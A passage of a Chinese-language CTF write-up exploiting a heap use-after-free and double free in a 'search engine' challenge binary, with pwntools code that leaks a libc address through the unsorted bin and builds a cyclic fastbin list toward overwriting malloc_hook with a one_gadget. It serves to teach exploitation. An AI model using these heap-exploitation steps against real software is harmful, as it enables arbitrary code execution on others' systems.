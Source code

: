 ```c
  }
  free(v1);
```

可以看出，在每次释放 i->sentence_ptr 之前，这个句子的内容就会全部被设置为 `\x00` ，由于单词结构体中存储的单词只是句子的一个指针，所以单词也会被置为 `\x00` 。该句子对应的那些单词仍然是存在于链表中的，并没有被删除，因此每次搜索单词的时候，仍然会判断。看起来由于句子内容被置为 `\x00` 可以防止通过 `*i->sentence_ptr` 验证。然而，由于 chunk 被释放后会被放到 bin 中，当 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的时候，也就有可能会产生 double free 的情况。此外，当句子被 `memset` 的时候，单词虽然都变为了 `\x00` ，但是我们仍然可以通过两个 `\x00` 的比较来绕过 `memcmp` 的检测。

### 利用

#### 利用思路

基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址
- 利用 double free 构造 fastbin 循环链表
- 分配 chunk 到 malloc_hook 附近，修改malloc_hook 为 one_gadget

#### 泄漏 libc 地址

这里我们分配一个 small bin 大小的 chunk ，当它被释放后，就会放入到 unsorted bin 中。因而，只要 `unsorted bin` 的地址的起始字节不是 `\x00` 便可以通过验证。同时，我们可以构造 `\x00` 来进行比较，从而通过验证。具体如下

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### 构造 fastbin 循环链表

由于我们最后希望在 malloc_hook 处分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我们所需要设置的设置的 fast bin 的数据字节部分的大小为 0x60。这里我们按照如下方式构造

1. 分别索引句子a，索引句子b，索引句子c，则此时单词链表中索引的句子的相对顺序为c->b->a。假设句子 a 为'a' * 0x5d+' d '，句子 b 为 'b' * 0x5d+' d '，句子c类似。
2. 索引单词d，三个均删除，则此时 fastbin 中的链表情况为 a->b->c->NULL，这是因为首先释放的是句子c，最后释放的是句子 a 。这时，搜索单词时`*i->sentence_ptr` 对于a, b 来说都是可以绕过的。
3. 我们此时再次删除搜索单词 `\x00`。首先遍历的是 c，但是 c 的验证不通过；其次遍历的是b，验证通过，我们将其释放；其次遍历的是a，验证通过，但是我们不删除。则此时 fastbin 的情况为 b->a->b->a->...。即已经构成了double free b的情况。由于我们先前为了 leak libc 还建立一个句子，所以还有一个单词可以比较，这里我们也不删除。

具体代码如下

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
```